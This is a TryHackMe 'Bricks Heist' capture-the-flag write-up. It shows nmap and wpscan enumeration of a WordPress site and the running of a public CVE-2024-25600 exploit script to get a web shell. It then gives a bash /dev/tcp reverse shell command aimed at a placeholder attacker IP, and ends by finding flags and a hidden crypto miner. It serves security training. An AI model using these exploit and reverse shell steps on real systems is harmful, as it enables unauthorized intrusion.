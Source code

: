 # 📝 Bricks Heist – TryHackMe Writeup

---

## 🔍 Enumeration

### Nmap Scan
Pro tip: scan for all open port then to a detailed scan on open ones  
```bash
nmap -p- --min-rate=2000 -oN allport.nmap $IP
```
```bash
nmap -sC -sV -vv -p$1, $2, $3 -oN detaile.nmap $IP
```
![nmap](screenshots/nmap1.png)  
![nmap](screenshots/nmap2.png)   
Open PORTS: 22, 80, 443, 3306   

### PORT 443
Note: add `$MACHINE-IP  bricks.thm` to /etc/hosts  
![web](screenshots/web1.png)   
![web](screenshots/web2.png)   
checked a few directories/files like `/robot.txt` `wp-admin` but nothing useful

### WPSCAN
```bash
wpscan --url https://brick.thm --disable-tls-checks
```
![wpscan](screenshots/wp1.png)  
![wpscan](screenshots/wp2.png)  

From the scan we found out that its using `Bricks theme V 1.9.5`. After searchin gfor potential exploits for this on google  
Found Out:[**CVE-2024-25600.py**](https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/blob/main/CVE-2024-25600.py)  

---
## 💥Exploitation

### Web Shell
```bash
python3 Downloads/CVE-2024-25600.py --url https://bricks.thm
```
![apacheshell](screenshots/apacheshell.png)  

Right now this is just a web shell that is the input is going through a php code that is being run on a server.  
Getting a reverse shell from web shell:  
Set up listener,
```bash
nc -nvlp 1234
```
Bash Reverse Shell,
```bash
bash -i >& /dev/tcp/<ATTACKER-IP>/1234 0>&1
```

---
## Flags
1.hidden.txt
```bash
find -name hidden.txt
```
2.Service associated
```bash
ps aux 
```
![service](screenshots/service.png)  
3.Sus Process  
```bash
systemctl status <service name>
```
![process](screenshots/process.png)  
4. Log file  
```bash
cd /lib/NetworkManager
```
![miner](screenshots/miner.png)  
5.Wallet adresss  
Using cyberChef to decode a doubly encoded base 64 hex. We get two bc adresses. Used blockchain to verify them;  
![address](screenshots/address1.png)   
![address](screenshots/address2.png)   
6.Threat Group   
Researching about the bc wallet address on google + chatGPT











